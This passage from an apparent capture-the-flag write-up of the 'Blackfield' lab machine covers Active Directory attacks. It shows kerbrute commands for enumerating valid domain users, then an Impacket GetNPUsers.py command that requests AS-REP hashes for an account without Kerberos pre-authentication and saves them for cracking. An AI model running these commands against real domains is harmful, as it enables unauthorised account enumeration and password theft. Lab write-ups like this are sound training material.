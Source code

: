 ![](<../../../.gitbook/assets/image (2043) (1) (1) (1) (1).png>)

Against kerbrute we can check for which users exists.

```bash
python3 kerbrute.py -users '~/blackfield/users.txt' -domain 'blackfield.local' -dc-ip '10.10.10.192' -outputusers '~/known_users.txt'
```

![](<../../../.gitbook/assets/image (2051) (1) (1) (1) (1) (1).png>)

We now have a confirmed user list:

```
svc_backup
audit2020
support
```

Where the user support has "Do not require pre-authentication" enabled in Active Directory. With this, we can potentially pull the kerberos hash with Impacket's `GetNPUsers.py`.

```
python2 GetNPUsers.py blackfield.local/ -dc-ip 10.10.10.192 -request -usersfile ~/known_users.txt -format john -outputfile ~/hashes.hash
```

![](<../../../.gitbook/assets/image (2052) (1) (1) (1) (1) (1).png>)
